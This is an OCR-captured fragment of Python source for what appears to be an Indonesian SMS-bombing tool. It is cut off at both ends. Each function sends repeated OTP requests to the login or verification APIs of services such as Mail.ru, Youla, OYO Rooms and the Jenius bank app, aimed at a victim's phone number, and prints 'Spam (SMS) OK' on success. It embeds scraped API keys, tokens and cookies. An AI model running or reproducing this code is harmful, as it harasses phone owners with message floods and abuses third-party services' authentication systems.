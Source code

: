 'x-email':'akunnuyul64@gmail.com',
})
     yu = r.post("https://cloud.mail.ru/api/v2/notify/applink",headers=hd,data=dat)
     if 'error' in yu.text:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}MailRu{kun} Gagal abang jago")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}MailRu{kan} OK")
 def youla(nom):
     r = ru.Session()
     hd = {'user-agent':ua.random}
     dat = {'phone':'62'+nom}
     yu = r.post("https://youla.ru/web-api/auth/request_code",headers=hd,data=dat)
     if 'error' in yu.text:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Youla{kun} Gagal abang jago")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Youla{kan} OK")
 def oyo(nom):
     r = ru.Session()
     hd = {
    "Host": "identity-gateway.oyorooms.com",
    "consumer_host": "https://www.oyorooms.com",
    "accept-language": "id",
    "access_token": "SFI4TER1WVRTakRUenYtalpLb0w6VnhrNGVLUVlBTE5TcUFVZFpBSnc=",
    "User-Agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36",
    "Content-Type": "application/json",
    "accept": "*/*",
    "origin": "https://www.oyorooms.com",
    "referer": "https://www.oyorooms.com/login",
    "Accept-Encoding": "gzip, deflate, br",
     }
     dat=json.dumps({"phone":nom,"country_code":"+62","country_iso_code":"ID","nod":"4","send_otp":"true","devise_role":"Consumer_Guest"})
     y = r.post("https://identity-gateway.oyorooms.com/identity/api/v1/otp/generate_by_phone?locale=id",headers=hd,data=dat)
     y1 = json.loads(y.text)["otp_sent"]
     if y1 == True:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}OyoHotels{kan} OK")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}OyoHotels{kun} Gagal abang jago")
 def jenius(nom):
     r = ru.Session()
     hd = {
     "accept": "*/*",
    "btpn-apikey": "f73eb34d-5bf3-42c5-b76e-271448c2e87d",
    "version": "2.36.1-7565",
    "accept-language": "id",
    "x-request-id": "d7ba0ec4-ebad-4afd-ab12-62ce331379be",
    "Content-Type": "application/json",
    "Host": "api.btpn.com",
    "Connection": "Keep-Alive",
    "Accept-Encoding": "gzip",
    "Cookie": "c6bc80518877dd97cd71fa6f90ea6a0a=24058b87eb5dac1ac1744de9babd1607",
    "User-Agent": "okhttp/3.12.1"
     }
     dat={"query":"mutation registerPhone($phone: String!, $language: Language!) {\n  registerPhone(input: {phone: $phone, language: $language}) {\n    authId\n    tokenId\n    __typename\n  }\n}\n","variables":{"phone":nom,"language":"id"},"operationName":"registerPhone"}
     udh = r.post("https://api.btpn.com/jenius",headers=hd,data=dat)
     print (udh.text)
 def vadershop(nom):
     r = ru.Session()
     hd = {'user-agent':'Mozilla/5.0 (Linux; Android 9; vivo 1902) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.136 Mobile Safari/537.36'}